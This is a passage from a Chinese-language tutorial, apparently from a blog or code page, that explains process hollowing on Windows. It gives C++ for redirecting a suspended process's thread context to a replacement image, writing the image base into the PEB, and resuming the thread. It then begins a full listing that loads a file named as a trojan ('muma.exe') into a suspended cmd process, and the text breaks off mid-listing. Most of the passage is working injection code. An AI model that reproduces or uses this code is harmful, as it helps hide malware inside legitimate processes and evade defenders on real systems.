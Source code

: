 

### 6.更新目标进程的线程上下文

将程序计数器（EAX/RAX 或 ECX/RCX 寄存器）设置为替换映像的入口点地址，并更新目标进程PEB中的映像基地址

```cpp
#ifdef _WIN64
    ctx.Rcx = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint);
    WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Rdx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);
#endif
#ifdef _X86_
    ctx.Eax = (SIZE_T)((LPBYTE)RemoteProcessMemory + pNtHeaders->OptionalHeader.AddressOfEntryPoint);
    WriteProcessMemory(pi.hProcess, (PVOID)(ctx.Ebx + (sizeof(SIZE_T) * 2)), &pNtHeaders->OptionalHeader.ImageBase, sizeof(PVOID), NULL);
#endif
```



设置目标进程的线程上下文，使其使用新的上下文信息

```cpp
SetThreadContext(pi.hThread, &ctx); // 设置线程上下文
```



### 7.恢复目标进程的主线程

```cpp
ResumeThread(pi.hThread); // 恢复挂起线程
```



## 完整代码

```cpp
#include <stdio.h>
#include <Windows.h>
typedef NTSTATUS(NTAPI* pNtUnmapViewOfSection)(HANDLE, PVOID);

int main(int argc, wchar_t* argv[])
{   
    // 定义变量和结构体
    IN PIMAGE_DOS_HEADER pDosHeaders;
    IN PIMAGE_NT_HEADERS pNtHeaders;
    IN PIMAGE_SECTION_HEADER pSectionHeaders;
    IN PVOID FileImage;
    IN HANDLE hFile;
    OUT DWORD FileReadSize;
    IN DWORD dwFileSize;
    IN PVOID RemoteImageBase;
    IN PVOID RemoteProcessMemory;
    STARTUPINFOA si = { 0 };
    PROCESS_INFORMATION pi = { 0 };
    CONTEXT ctx;
    ctx.ContextFlags = CONTEXT_FULL;
    si.cb = sizeof(si);
   
    //用于替换的恶意程序
    char path[] = "E:\\muma.exe";
    
    // 创建挂起的cmd进程
    BOOL bRet = CreateProcessA(
        NULL,
```